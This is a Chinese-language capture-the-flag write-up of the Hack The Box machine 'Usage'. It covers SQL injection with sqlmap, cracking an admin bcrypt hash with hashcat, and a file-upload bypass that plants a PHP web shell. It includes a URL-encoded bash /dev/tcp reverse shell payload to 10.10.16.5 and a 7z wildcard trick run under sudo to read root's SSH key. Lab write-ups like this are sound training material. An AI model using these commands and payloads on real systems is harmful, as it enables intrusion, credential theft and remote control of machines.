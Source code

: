 ```yaml
---
title: HTB - Usage
published: 2024-05-14
tags: [HTB]
category: Write Up
draft: false
password: $y$j9T$eHRVEjBacjX.aL3Dv.ayh/$ya7Anf39wpVrmChSihyT1sxtFg.2JLtN/z5oNXKDRc4
abstract: 你看不到我...你看不到我...
message: 輸入密碼
---
```


# HTB - Usage

Target IP : ```10.10.11.18```

![圖片](https://hackmd.io/_uploads/HyhPj9_bR.png)



---
# user.txt

### Port Enumerate

使用工具 : 
* Rustscan
* nmap

使用命令 ``` rustscan -a 10.10.11.18 --ulimit 6000 -- -sC -sV -Pn```

![圖片](https://hackmd.io/_uploads/HkuY9qdbR.png)

掃出來 Port 後 , 會看到詳細兩個服務和版本 
```
1. 22/tcp open  ssh
2. 80/tcp open  http
```
![圖片](https://hackmd.io/_uploads/H1XTcqdbC.png)



---
### DNS for Virtual web hosting

從上述掃描結果可以看到目標主機有個網頁伺服器
但由於DNS 和 IP 對不上,所以我們要去```/etc/hosts```增加對應關係

![圖片](https://hackmd.io/_uploads/SJ9Sn5_-C.png)

然後就可以進入網站

![圖片](https://hackmd.io/_uploads/Hyhw29uZA.png)

fuzz 過子目錄 , 帳號註冊和登入 ,以及 admin 頁面都沒有收穫
### SQL injection
最後用 sqlmap 盲注 ```http://usage.htb/forget-password``` 頁面

首先用 ```burp Suite``` 抓取 ```POST``` 請求
> 這邊使用 ```FoxyProxy``` 插件
> 因為它內建的瀏覽器真的太爛了...
> 
![圖片](https://hackmd.io/_uploads/SJ0y0qdbA.png)
![圖片](https://hackmd.io/_uploads/rJ2eC5uZA.png)

把 ```POST``` 請求存成一個檔案 我把它存到 ```r.txt```
![圖片](https://hackmd.io/_uploads/ByNQgiOZC.png)

先用以下指令
``sqlmap -r r.txt --dbs --risk 3 --level 3 --threads 8 --batch``

成功後得知他有三個資料庫
```
* imformatioa_schema
* performajce_schema
* usage_blog
```
![圖片](https://hackmd.io/_uploads/HJIoys_bA.png)

我們需要的資訊肯定是在 ```usage_blog```
所以我們 enum 一下裡面有哪些 Tables
```sqlmap -r r.txt -D usage_blog --tables --threads 30 --batch```
![圖片](https://hackmd.io/_uploads/Hk9pxsu-A.png)

很明顯 , 管理員的資訊應該都在 ```admin_users```上
試著提取出裡面的資料

```sqlmap -r r.txt -D usage_blog -T admin_users -columns --threads 6 --batch  ```
![圖片](https://hackmd.io/_uploads/ryu3MiubA.png)

接下來只需要提取 username 和 password 就好了
```sqlmap -r r.txt -D usage_blog --sql-shell --threads 6 --batch```
>由於不知道啥原因沒辦法從 -C 選項直接拿資料
>所以直接用模擬shell的環境用 SQL 語法讀取

![圖片](https://hackmd.io/_uploads/SyJeVi_bC.png)

得到
```
username : admin
password : $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
```
## Hash Cat
這個密碼肯定是 Hash 過的 , 所以我們沒辦法直接透過這段進入後台
先想辦法得知他是什麼總類的 Hash 再來做還原的動作

使用```nth```
![圖片](https://hackmd.io/_uploads/SJDhVo_bA.png)

得知是使用 ```bcrypt```的方式 , 現在著手來還原
使用著名的 ```rockyou.txt``` 來當字典檔

```hashcat -a 0 -m 3200 pass.txt rockyou_2.txt --force```

![圖片](https://hackmd.io/_uploads/BkdYrj_WA.png)

結果馬上就跑出來了
現在可以去後台瀏覽
## Reverse Shell | WEB shell
![圖片](https://hackmd.io/_uploads/SkqRrsO-R.png)

可以得知所有系統資訊和框架軟體版本
但主角還是
```
http://admin.usage.htb/admin/auth/setting
```
![圖片](https://hackmd.io/_uploads/SkWSLjubR.png)

這邊經過測試 , 無法上傳非圖像的後門
所以要透過一些小步驟來繞過去

先用 burp suite 來攔截上傳封包
![圖片](https://hackmd.io/_uploads/B14gwidb0.png)

把第22行的 ```filename="q.jpg"``` 改成 ```filename="q.php"```
然後上傳上去

![圖片](https://hackmd.io/_uploads/BkXsPiOb0.png)

302 代表上傳成功 , 如果出現其他的可能是你的令牌過期了
要重新整理一次在攔截一次 POST 請求

接下來,手速要很快,因為它會定期清掉上傳上去的東西
![圖片](https://hackmd.io/_uploads/BJPO_sdZC.png)
可以看到檔案能回傳ls的指令,代表我們成功了
現在準備 payload 和 listener 就能創建一個reverse shell

```
payload = %2Fbin%2Fbash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.5%2F4244%200%3E%261%22
```

![圖片](https://hackmd.io/_uploads/HJR6Kj_W0.png)

![圖片](https://hackmd.io/_uploads/BJJDqjub0.png)

當我們成功接收到 reverse shell
到 ```/home/dash``` 底下能拿到 ```user.txt```
# root.txt

![圖片](https://hackmd.io/_uploads/rJPeiodb0.png)

接下來查看底下的檔案中有沒有有用的訊息
找到一個名為 ```.monitrc``` 的檔案
![圖片](https://hackmd.io/_uploads/HyK2is_WA.png)

感覺是另一個帳戶的密碼,我們用```xander```的身分登入ssh看看

![圖片](https://hackmd.io/_uploads/SJdLni_W0.png)

拿到 ssh 後會做幾件事情
```=info
1. 看 ID 當前用戶組有什麼可以用的
2. sudo -l
3. 看開放的port
4. linpeas
```
跑一次 ```sudo -l``` 發現有一個二進制是我能用sudo跑的
![圖片](https://hackmd.io/_uploads/H1OI6iOWR.png)
用 scp 把它載回本地拆
```
scp xander@10.10.11.18:/usr/bin/usage_management ~/
```
## Reverse Engineering
我們用 ```ghidra```分析一輪拆開來看看

![圖片](https://hackmd.io/_uploads/ryfi0o_bR.png)

在 ```backupWebContent(void)``` 函式看到調用到system來執行指令 , 通常這個地方是可以被利用的

然而在網路上看到這一篇文章 : [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z)

![圖片](https://hackmd.io/_uploads/HJRw13_bA.png)

7z 會把我們所創建的 @foo 檔案當成目錄表
然而因為不是目錄表它會在執行過程中報錯,並且打印出這個文件
這邊我們就可以用sudo的權限去打印出我們想要的資料

![圖片](https://hackmd.io/_uploads/BJv_W3u-C.png)

這邊選擇打印出 root 底下的 ssh 密鑰

![圖片](https://hackmd.io/_uploads/HkssbnuZ0.png)

打印出來後把金鑰整理成可以使用的格式

![圖片](https://hackmd.io/_uploads/rkGgzndZA.png)

然後記得 ```chmod 600 {KEY_FILE}```
再使用 ```ssh -i key root@10.10.11.18```登入

![圖片](https://hackmd.io/_uploads/HyxOz2dZ0.png)

之後再直接 ```ls``` 就能拿到 ```root.txt```

![圖片](https://hackmd.io/_uploads/B1Pqz3_WR.png)


---






